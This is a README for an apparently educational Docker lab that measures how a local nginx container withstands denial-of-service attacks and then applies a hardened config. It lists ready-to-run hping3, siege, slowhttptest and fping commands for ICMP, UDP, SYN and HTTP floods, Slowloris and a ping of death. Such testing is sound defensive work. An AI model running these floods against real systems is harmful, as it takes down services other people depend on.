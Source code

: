 # prjctr-16-ddos

Create a token in influxdb for telegraf, add to telegraf config

Create a token in influxdb for grafana, add to grafana config

```
http://127.0.0.1:3000/connections/datasources/edit

docker exec -it influxdb influx auth create --org telegraf --read-buckets --read-checks  --read-checks  --read-dashboards --skip-verify --read-telegrafs --read-notificationEndpoints
```

### Run the cluster

```
docker compose up -d --build
```

### ICMP flood

No noticeable effects

```
docker exec -it attacker hping3 --flood --icmp nginx -p 8080
```

### UDP flood

No noticeable effects

```
docker exec -it attacker hping3 --flood --rand-source --udp -p 8080 nginx
```

### HTTP flood

**Noticeably increases CPU and Memory usage of nginx**

```
docker exec -it attacker siege -b -c250 -t60s http://nginx:8080
```

### Slowloris

**Significantly increases memory usage**

```
docker exec -it attacker slowhttptest -c 1050 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3
```

### SYN flood

No noticeable effects

```
docker exec -it attacker hping3 -S --flood -V -p 8080 nginx
```

### Ping of death

No noticeable effects

```
docker exec -it attacker fping -b 65488 -c 10000 -p 10 nginx
```

### Re-deploy nginx with the secured config

```
NGINX_CONF_FILE=./nginx/nginx-secure.conf docker compose up -d
```

Now slowloris and HTTP flood attacks have no effect
